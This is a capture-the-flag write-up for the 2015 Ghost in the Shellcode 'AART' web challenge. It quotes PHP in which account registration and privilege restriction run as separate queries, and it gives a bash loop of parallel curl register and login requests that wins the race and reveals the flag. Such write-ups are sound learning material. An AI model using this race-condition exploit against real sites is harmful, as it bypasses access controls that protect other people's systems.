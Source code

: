 ```yaml
---
layout: post
title: "AART"
date: 2015-01-18
ctf: Ghost in the Shellcode 2015
author: Pegasus
---
```


## Web
### 200 Points

Also found [here](http://www.rjthomas.eu/2015/01/19/afnom-ghost-in-the-shellcode-2015-ctf-write-up/).

The challenge was supplied with source code which had the PHP scripts and the schema for the database running on the site. We noticed that for a while, submitted 'artwork' wasn't correctly showing up on the homepage, and we assume this was fixed as we saw people trying to run different attempts.

From the source code, we didn't have much to work from - we identified a few opportunities for injection, notably in the $_POST used by PHP. However, we couldn't inject anything useful there, as the username was sanitised and the password was simply matched against entries.

One interesting thing we noticed however was this in register.php.
{% highlight php %}
if(isset($_POST['username'])){
  $username = mysqli_real_escape_string($conn, $_POST['username']);
  $password = mysqli_real_escape_string($conn, $_POST['password']);

  $sql = "INSERT into users (username, password) values ('$username', '$password');";

  mysqli_query($conn, $sql);
  $sql = "INSERT into privs (userid, isRestricted) values ((select users.id from users where username='$username'), TRUE);";
  mysqli_query($conn, $sql);
  ?>
  <h2>SUCCESS!</h2>
{% endhighlight %}

  So - what does this mean for us?
  Well, there's a race condition present in this 'snippet' - it inserts the user details (sanitised, of course!) into the database, and then performs a second query to restrict the account (you don't get access to the key if your user ID is present in this restricted table. Thanks to Abstract for this idea.

  This meant we had to find a way around this bit of code:
{% highlight php %}
$uid = $row['id'];
$sql = "SELECT isRestricted from privs where userid='$uid' and isRestricted=TRUE;";
$result = mysqli_query($conn, $sql);
$row = $result->fetch_assoc();
if($row['isRestricted']){
  ?>
  <h2>This is a restricted account</h2>
  <?php
  }else{
    ?>
    <h2><?php include('../key');?></h2>
    <?php
  }
  ?>
{% endhighlight %}

So - one could write something that performs some multi-threaded operations and manages to perform a login operation just as the account is registered and the privileges aren't restricted. This is going to be a bit difficult to time correctly, so why not just use a bash script with cURL?

{% highlight bash %}  
  #!/bin/bash
  for i in {1..50}
  do
  curl --data "username=leet_hackeri$i&password=12345" http://aart.2015.ghostintheshellcode.com/register.php -s >&1 >/dev/null &
  curl --data "username=leet_hackeri$i&password=12345" http://aart.2015.ghostintheshellcode.com/login.php
  done
{% endhighlight %}

With this done, any registration queries would be executed, but I wouldn't be inundated with the HTML generated by the registration pages and only get the results of the login pages.

Over time, I started to see 'this is a key', instead of 'This is a restricted account'. Now, I thought nothing of this until I saw it repeatedly inside a `<h2>` tag. This tied in what was in the PHP script where the privileges were not set. Submitting 'this is a key' as the token gave us a correct answer and the 200 Points for the challenge.

###Notes

For this to have worked, it's a 'all in or bust' attempt. Once the account is registered, there's no going back, so you immediately need to test it, hence why the bash script was written as it was. If we had tried this in a browser (unless we had BURP intercepting everything and we delayed until we were ready for the right time), we likely would not have succeeded.
    I've also seen some interesting solutions using Python and Perl, all of which are as suitable as mine, but I found this would do the work for me.
